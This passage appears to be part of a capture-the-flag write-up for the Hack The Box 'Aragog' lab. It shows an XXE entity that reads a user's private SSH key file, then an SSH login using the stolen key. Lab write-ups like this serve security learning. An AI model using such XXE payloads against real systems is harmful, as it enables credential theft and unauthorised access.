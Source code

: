 <img src="/img/blog/htb-aragog/htb-aragog-05.png">

Password authentication disabled. That's a bummer. Fair enough, let's see if we can retrieve a private SSH key for one of the users. HA, It's our lucky day! Florian has his private SSH key exposed. Here's the entity which will print out the contents of the **id_rsa** file. `<!ENTITY xxe SYSTEM "file:///home/florian/.ssh/id_rsa" >]>`.

<img src="/img/blog/htb-aragog/htb-aragog-06.png">

Save this as *florian.key* and use it to login into SSH. 
```console
root@EdgeOfNight:~# ssh -i florian.key florian@10.10.10.78
Last login: Fri Jul 27 04:44:11 2018 from 10.10.14.133
florian@aragog:~$ hostname
aragog.htb
florian@aragog:~$ 
```
**Go and get your user flag!**
